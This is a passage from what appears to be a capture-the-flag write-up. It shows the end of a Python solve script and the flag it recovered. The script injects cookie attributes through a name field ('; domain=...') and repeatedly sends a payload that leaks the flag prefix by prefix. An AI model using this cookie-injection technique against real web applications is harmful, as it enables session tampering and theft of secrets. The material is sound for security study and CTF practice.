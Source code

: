 ```python
    change_name(cookier, '/secret something; domain=gooe.com')
    send_message(cookier, '/secret something; domain=gooe.com', 'dog')
    time.sleep(2)
    flag_stealer = session()
    flag_stealer.get(URL)
    send_message(flag_stealer, flag_payload, 'dog')

main()
```

Running this mutiple times, expanding the flag prefix each time gives us: `CTF{L0LC47S_43V3R}`
